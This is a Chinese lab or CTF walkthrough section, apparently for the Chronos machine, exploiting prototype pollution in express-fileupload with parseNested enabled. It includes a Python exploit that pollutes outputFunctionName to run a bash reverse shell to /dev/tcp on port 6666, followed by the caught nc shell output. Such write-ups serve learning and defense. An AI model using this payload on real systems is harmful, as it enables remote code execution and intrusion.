

## 6. express fileupload原型链污染漏洞

参考：

```
https://www.bleepingcomputer.com/news/security/nodejs-module-downloaded-7m-times-lets-hackers-inject-code/

#原作者
https://blog.p6.is/Real-World-JS-1/
```



要利用这个漏洞服务端需要开启processNested，

```
So, if options.parseNested has a value. If calls processNested Function, and argument will be req.body and req.files.
```

很明显，server.js开启了

```
app.use(fileupload({ parseNested: true }));
```



### 利用

kali监听6666，

- exp.py

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/172.16.42.147/6666 0>&1"'

# pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://127.0.0.1:8080')
```

保存在kali, 使用python监听81端口，在目标机上下载执行。

进入靶机的tmp目录下载，执行exp.py

```
python3 exp.py
```

反弹shell成功

```shell
[root@kali /tmp]# nc -nvlp 6666
listening on [any] 6666 ...
connect to [172.16.42.147] from (UNKNOWN) [172.16.42.203] 59730
bash: cannot set terminal process group (764): Inappropriate ioctl for device
bash: no job control in this shell
imera@chronos:/opt/chronos-v2/backend$
```
